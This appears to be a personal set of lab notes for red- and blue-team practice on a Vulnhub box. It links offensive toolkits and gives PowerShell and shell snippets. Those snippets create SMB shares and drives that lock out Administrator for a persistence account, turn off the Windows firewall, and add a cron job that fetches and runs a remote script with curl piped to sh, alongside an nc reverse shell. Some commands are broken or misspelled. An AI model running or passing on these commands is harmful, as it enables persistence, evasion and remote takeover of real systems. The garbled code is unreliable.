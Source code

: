 
TrustedSec Tool Lab
https://github.com/trustedsec/social-engineer-toolkit
Unicorn - https://github.com/trustedsec/unicorn

- https://github.com/trustedsec/trevorc2
- https://github.com/trustedsec/ptf
- https://github.com/trustedsec/hate_crack

Seatbelt compile and used

Host Vulnhub box and do both Red and Blue Teaming 

Smbmaze
```powershell
$persistenceUser = "User1"

for ($i=0; $i -lt 26; $i++) {
  $driveLetter = [char]($i + 65) + ":"
  if (!(Get-Volume | Where-Object DriveLetter -eq $driveLetter)) {
    $newDisk = New-VirtualDisk -DriveLetter $driveLetter -Size 10MB
    $acl = Get-Acl -Path $newDisk.DriveLetter
    $persistenceUserRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $persistenceUserAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule($persistenceUser, $persistenceUserRights, "Allow")
    $acl.SetAccessRule($persistenceUserAccessRule)
    $otherUsersRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $otherUsersAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule("Administrator", $otherUsersRights, "Deny")
    $acl.SetAccessRule($otherUsersAccessRule)
    Set-Acl -Path $newDisk.DriveLetter -AclObject $acl
  }
}

```

Create a file share - the longer the path for copy and paste and shell nightmares
```powershell
#

# -ConcurrentUserLimit to prevent hacky breaking into destroy the share 

New-SmbShare -Name MyFileShare -Path $goodPath -FullAccess $persistenceUser -EncryptData $True -ConcurrentUserLimit 1 -ContinuouslyAvailable -Temporary
# You can set up an inital connection to a remote host with output from
#  New-CimSession Get-CimSession
-Cim-Session 


# Add to known adversary accounts -NoAccess Administrator

$Parameters = @{
    Name = '$Name'
    Path = $goodPath
    FullAccess = 'Contoso\Administrator', 'Contoso\Contoso-HV1$'
    EncryptData = $True
    Temporary = $True
    ContinuouslyAvailable = $True
    NoAccess = 'Administrator' # Prevent access administrator - create persistence user to access
}
New-SmbShare @Parameters
```



Firewall fun
```powershell
# Check Profile
netsh advfirewall show currentprofile

# Turn off the Firewall
NetSh Advfirewall set allprofiles state off

# Modify a Firewall Rule for a program
netsh advfirewall firewall add rule name="<Rule Name>" program="<FilePath>" protocol=tcp dir=in enable=yes action=allow profile=Private
netsh advfirewall firewall add rule name="<Rule Name>" program="<FilePath>" protocol=tcp dir=out enable=yes action=allow profile=Private
# Delete a rule
netsh.exe advfirewall firewall delete rule "<Rule Name>"_
```
[test](https://www.itninja.com/blog/view/how-to-add-firewall-rules-using-netsh-exe-advanced-way)


```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block 
```

```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block |
Format-Table -Property 
DisplayName, 
@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}}, @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
Enabled,
Profile,
Direction,
Action"
```

```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block | Format-Table -Property DisplayName,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}}, Enabled, Profile,Direction,Action"

```

```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Allow
```


- Cron Persistence updating, fixing, trick research
```bash

 crontab -e


CT=$(crontab -l)
CT=$CT('\n* * * * *   root    curl http://<ip>:<port>/run | sh')
' /usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 10.10.10.10 6969 >/tmp/f'

printf "$CT" | cronbtab -
```

cron, setuid bash, alias

nobody account has bash

Systemd persistence
https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8




- Enabling RDP with cme and impacket kerboros tickets 
	- Harden and or implement AMSI with powershell 
- Create an alert based on .exe and .ps1 from PowerUP, Winpeas 
- Remote interaction with box that would no lead to compromise
- Open RDP for a new user to use Sysmon, ProcMon
- Get Sysinternals on box

https://github.com/dubs3c/sudo_sniff/blob/master/sudo_sniff.c

